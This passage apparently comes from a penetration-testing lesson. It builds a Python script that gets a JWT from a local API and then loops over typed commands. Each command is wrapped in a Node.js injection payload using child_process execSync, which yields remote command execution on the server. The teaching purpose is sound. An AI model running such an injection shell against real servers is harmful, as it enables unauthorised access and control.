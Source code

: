 Now, we can review our previous `curl` command to know what we need in our request:

```bash
curl -s -X POST -H "Content-Type: application/json" -d '{"email": "[email protected]"}' http://localhost:5000/api/auth/authenticate

```

So, we will define our headers and data in their variables as well:

```py
headers = {"Content-Type": "application/json"}
data = {"email": "[email protected]"}

```

Then, we can put all of this together to send a POST request with the `requests.post` function, as follows:

```py
response = requests.post(auth_endpoint, headers=headers, data=json.dumps(data))

```

To get the `token` value from the JSON response with:

```py
token = response.json()['token']

```

**Exercise:** Try to run this code and then print `token` to confirm that we do get a valid JWT token.

## Retrieving Input Command

We can keep the `token` variable at the top level and start a `user input` loop that executes the remaining steps. Let's start with a simple loop that takes our input and then prints it:

```py
while True:
    user_input = input("\n> ")
    print(user_input)

```

We can run this to test it, and it works as expected. Instead of printing `user_input`, we want to inject it into our payload. We will use Python `string interpolation` to avoid breaking the JSON body:

```py
while True:
    user_input = input("> ")
    payload={ "text": "' + require('child_process').execSync('" + user_input + "').toString() + `'`, statusCode: 403})//"}
    print(payload)

```
